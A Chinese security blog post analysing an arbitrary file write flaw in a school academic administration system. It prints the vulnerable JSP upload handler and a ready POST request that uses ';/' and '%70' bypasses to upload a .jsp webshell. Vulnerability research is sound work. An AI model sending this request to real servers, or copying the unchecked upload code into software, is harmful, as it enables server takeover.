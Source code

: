 #  重生之网安小FW，某教务一体化系统任意文件写入漏洞  
原创 chobits02  C4安全团队   2025-06-12 09:25  
  
## 前言  
  
之前在挖掘某个项目目标漏洞的时候，收集到了下面学校的系统。看系统是教育SRC经常出漏洞的常客，但是网上基本没有公开的漏洞信息，藏得真好啊  
  
系统页面如下，是某智的教务系统  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuarvUU4jweLRPVDpC5cu4cCNS2YU7wXW3AicxKibH0PVibs8nZoPVicLbsQ/640?wx_fmt=png&from=appmsg "")  
  
找了半天，好家伙只能在ddpoc上面找到，用微信注册一个账号，用仅存的20积分换个poc看下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuxqlQQYkxoPJ1DvvZIic62ibaIhdeh5QHicXsfMRlUdZDWhxQzpPVP6ibXw/640?wx_fmt=png&from=appmsg "")  
  
给的poc也不是标准的nuclei格式  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjus9gFs0ffAtA8Cx51Y8GibdnOaZ6DLabJiauVxoZIMZ7EJQzQfrQsUtOA/640?wx_fmt=png&from=appmsg "")  
  
看个大概吧，使用;/绕过特殊处理URL，然后%70应该是请求绕过后缀检测  
  
可惜在系统上面试了试，都是利用不了的，但是手边正好有份源码，我简单分析下jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuhZqH9jGkEMAX7xGicibYAbT6c7WYKAZicNiam7vL8TL3fT5CITwDSpnYxA/640?wx_fmt=png&from=appmsg "")  
  
文件路径就是  
\ROOT\framework\scan\jsp  
  
代码如下  
```
<%@ page contentType="text/html; charset=utf-8" language="java" import="java.sql.*,java.io.*" errorPage="" %>
<%
String savePath=config.getServletContext().getRealPath("/images/");
        File tmp_path=new File(savePath);
        tmp_path.mkdirs();
        System.out.println("照片数据保存路径:"+savePath);
String pic_base_64_data=request.getParameter("picData");
//如果下面的代码输出true则说明需要调整服务器软件工作参数，解决接受post数据的大小限制问题,例如
//tomcat的话需要在server.xml中配置maxPostSize="0"来解除上传数据的大小限制   <Connector port="8080" protocol="HTTP/1.1" 
//               connectionTimeout="20000" 
//               redirectPort="8443" maxPostSize="0"/>
// 
System.out.println(null==pic_base_64_data);
System.out.println("base64 string length:"+pic_base_64_data.length());
String fileFormat=request.getParameter("picExt");
sun.misc.BASE64Decoder decode=new sun.misc.BASE64Decoder();
byte[] datas=decode.decodeBuffer(pic_base_64_data);
String filename=String.valueOf(System.currentTimeMillis())+fileFormat;
File file=new File(savePath+"/"+filename);
System.out.println("file="+file);
OutputStream fos=new FileOutputStream(file);
System.out.println("图片文件名称:"+filename);
fos.write(datas);
fos.close();
out.print("<a href='" + filename + "'>click here</a>");
out.flush();
out.close();
%>
```  
  
jsp文件接收  
Base64编码的图片数据，通过参数  
picData指定base64编码的内容，  
picExt指定文件后缀名  
  
保存的文件路径为  
/images/，如果上传成功，就拿返回数据包里面通过时间戳命名的filename+.jsp后缀来请求，就能getshell了  
  
因此上传文件请求体大致如下  
```
POST /;/framework/scan/jsp/submit.js%70 HTTP/1.1
Host: 

Content-Type: application/x-www-form-urlencoded
picData=base64编码内容&picExt=.jsp
```  
  
师傅们看个乐呵，现在这漏洞都修的差不多了，恰个柠檬  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT3zGiag0vYXxvxjZ43SlPjuGo2icdMpUtKQBf9qlGDia5hwXJWhe9Z3JR7CBibt0ymIYSibNFxzEhhribg/640?wx_fmt=png&from=appmsg "")  
  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，加入团队等都可联系下方微信，扫码即可。**  
  
END  
  
  
  
  
  
  
  
  
  

